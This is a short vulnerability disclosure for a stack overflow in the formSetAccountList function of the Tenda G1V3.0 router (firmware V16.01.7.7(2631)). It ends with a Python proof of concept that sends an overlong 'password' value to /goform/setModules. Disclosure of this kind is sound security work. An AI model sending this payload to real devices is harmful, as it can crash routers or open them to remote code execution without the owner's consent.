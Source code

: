 # Tenda G1V3.0 formSetAccountList
### Overview
vendor: Tenda Enterprise-level wired router

product: G1V3.0 

version: V16.01.7.7(2631)

type: Stack Overflow
### Vulnerability Description
Tenda G1V3.0 Enterprise-level wired router V16.01.7.7(2631) were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G1v30-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```

